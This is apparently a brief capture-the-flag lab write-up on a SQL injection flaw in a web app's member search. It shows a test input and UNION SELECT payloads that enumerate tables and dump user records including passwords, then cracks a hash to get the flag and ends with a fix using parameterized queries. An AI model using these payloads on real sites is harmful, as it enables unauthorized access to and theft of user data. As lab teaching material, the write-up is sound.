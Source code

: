 member search
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

how to find explot:
From home page , select members in the menu bar. type '1 or 1=1' into search field, this indicates it can be exploited by sql injection.

how to exploit it:
Run ' 1 union select null, concat (table_name) from information_schema.tables where table_schema = database () ', this returns a table, then ' -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users ' to return the users in the members table.
find the Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28. decrypt it, then use sha256 calculator on fortytwo. the result is the flag.

how to fix exploit:
Don't use dynamic SQL – don't construct queries with user input. parameterized query will prevent attack. data sanitation is to prevent injection attack 
